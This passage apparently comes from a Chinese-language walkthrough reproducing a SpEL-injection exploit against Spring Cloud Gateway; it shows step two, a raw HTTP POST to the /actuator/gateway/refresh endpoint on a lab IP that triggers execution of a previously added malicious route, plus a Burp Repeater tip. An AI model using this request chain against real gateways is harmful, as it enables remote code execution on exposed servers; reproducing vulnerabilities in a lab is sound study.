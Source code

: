 ![img](assets/1.png)

2.刷新网关路由，然后，发送如下数据包应用刚添加的路由。这个数据包将触发SpEL表达式的执行：

```java
POST /actuator/gateway/refresh HTTP/1.1
Host: 192.168.1.10:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

    
```

**踩坑：我遇到的问题，有的可能跟我操作一样，但是结果不一样，比如点击bp重发器发送没反应，这时候你直接在数据包最后面加两个回车就好了！**

![img](assets/2.png)
